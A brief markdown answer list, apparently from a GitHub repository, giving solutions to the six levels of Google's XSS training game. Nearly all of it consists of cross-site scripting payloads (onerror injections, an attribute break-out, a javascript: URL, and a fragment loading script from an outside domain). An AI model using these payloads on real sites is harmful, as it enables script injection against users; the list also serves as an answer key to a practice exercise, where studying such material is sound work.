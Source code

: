 ## Google XSS game
> https://xss-game.appspot.com

Solutions

1. `<img src=x onerror=alert(1)>`
2. `<img src=x onerror=alert(1)>`
3. `#' onerror=alert(1)>//`
4. `'); alert('XSS`
5. `/signup?next=javascript:alert(1);`
6. `#/httPs://abhaynayar.com/xss.js`

